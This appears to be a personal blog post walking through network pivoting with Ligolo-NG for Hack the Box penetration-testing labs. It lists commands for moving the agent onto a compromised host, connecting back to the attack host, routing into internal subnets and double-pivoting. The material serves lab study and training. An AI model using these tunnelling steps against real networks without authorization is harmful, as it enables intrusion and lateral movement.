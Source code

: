 ```yaml
---
layout: post
title: Pivoting with Ligolo-NG
---
```


Just a quick post for Labor Day.  

Since January I have been working on the Hack the Box Penetration Testing path.  It has been not only educational, but also showed me something that I thought I could not do, I could do.  Penetration Testing is taking the troubleshooting skills I have built over 18 years of IT Experience in the real world and showed me how it can be used to make networks stronger and more secure.

It also has showed me how easy it is to break into a Windows system.  Though I can't say it has justified my switch to Linux because it can be just as bad.  

I have just completed the Pivoting lab and the one tool I have utterly abused is Ligolo-NG.  It made jumping through a network and being able to run my tools from my attack host so, so easy.  If you can run the agent, you can get it back as if you are running a VPN.  Being able to get back to my tooling on the attack host such as NMap or Remmina makes jumping through labs rather easy.  

Probably the biggest challenge I had was making it all work.  With that, to add to the pile of Ligolo-NG walkthroughs that exist on the Internet, below is my own.  

If you are going through CPTS, I recommend the below cheet sheets and guides. Also, take notes and make your own.  

Have fun and 73's 

[CPTS-Checklists](https://github.com/imjustBuck/CPTS-Checklists/tree/main)

[Penetration Testing Handbook](https://github.com/w1j0y/penetration-testing-handbook)

Please note, this is what works for me as of 8/1/2025.  Things may change.  

- https://docs.ligolo.ng/
- https://github.com/Nicocha30/ligolo-ng
- https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16

Its just best to pull the precompiled binaries when you are doing HTB labs.  https://github.com/nicocha30/ligolo-ng/releases

## Setup on the attack box
Setup your tuntaps (need one for each pivot)
`sudo ip tuntap add user zac mode tun ligolo1`
`sudo ip link set ligolo1 up`

Start the proxy:
`sudo ./proxy -selfcert -laddr 0.0.0.0:443`

## On the Pivot Point
Enumerate what networks you need, in my example 172.16.5.0/24 is the network pass the pivot point

Get your agent there (python http with wget works well, scp is another one)

run the agent (assuming attack host is 10.10.14.74):  `./agent -connect 10.10.14.74:443 -ignore-cert`

Add in on your attack box the ip:  `sudo ip route add 172.16.5.0/24 dev ligolo1`

In Ligolo, type session and confirm it connected and select it

Type `tunnel_start --tun ligolo1`

## Double-Pivot
In Ligolo on the attack host, when connected to a pivot point session, you can add a listener by doing `listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:443`

Added in on your attackbox the other network (assuming the IP on the other interface is 172.16.6.35) `sudo ip route add 172.16.6.0/24 dev ligolo2`

Start the agent, say the pivot point is 172.16.5.15.  `agent -connect 172.16.5.15:11601 -ignore-cert`

Wait at least a minute for the agent to connect a new session, then use `session` to swap over to it. 

Start the tunnel `tunnel_start --tun ligolo2`




